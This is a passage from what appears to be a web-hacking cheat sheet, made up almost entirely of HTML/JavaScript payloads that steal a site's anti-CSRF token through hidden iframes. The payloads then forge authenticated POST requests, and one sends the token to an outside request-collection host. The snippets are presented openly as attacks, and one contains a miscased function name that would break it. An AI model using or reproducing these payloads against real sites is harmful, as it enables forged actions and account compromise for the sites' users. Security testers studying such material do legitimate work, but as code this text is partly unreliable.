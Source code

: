 ```html
<form id="form1" action="http://google.com?param=VALUE" method="post" enctype="multipart/form-data">
<input type="text" name="username" value="AA">
<input type="checkbox" name="status" checked="checked">
<input id="token" type="hidden" name="token" value="" />
</form>

<script type="text/javascript">
function f1(){
    x1=document.getElementById("i1");
    x1d=(x1.contentWindow||x1.contentDocument);
    t=x1d.document.getElementById("token").value;
    
    document.getElementById("token").value=t;
    document.getElementById("form1").submit();
}
</script> 
<iframe id="i1" style="display:none" src="http://google.com?param=VALUE" onload="javascript:f1();"></iframe>
```

### **Steal CSRF Token and sen a POST request using an iframe and a form**

```html
<iframe id="iframe" src="http://google.com?param=VALUE" width="500" height="500" onload="read()"></iframe>

<script> 
function read()
{
    var name = 'admin2';
    var token = document.getElementById("iframe").contentDocument.forms[0].token.value;
    document.writeln('<form width="0" height="0" method="post" action="http://www.yoursebsite.com/check.php"  enctype="multipart/form-data">');
    document.writeln('<input id="username" type="text" name="username" value="' + name + '" /><br />');
    document.writeln('<input id="token" type="hidden" name="token" value="' + token + '" />');
    document.writeln('<input type="submit" name="submit" value="Submit" /><br/>');
    document.writeln('</form>');
    document.forms[0].submit.click();
}
</script>
```

### **Steal token and send it using 2 iframes**

```html
<script>
var token;
function readframe1(){
  token = frame1.document.getElementById("profile").token.value;
  document.getElementById("bypass").token.value = token
  loadframe2();
}
function loadframe2(){
  var test = document.getElementbyId("frame2");
  test.src = "http://requestb.in/1g6asbg1?token="+token;
}
</script>

<iframe id="frame1" name="frame1" src="http://google.com?param=VALUE" onload="readframe1()" 
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"></iframe>
```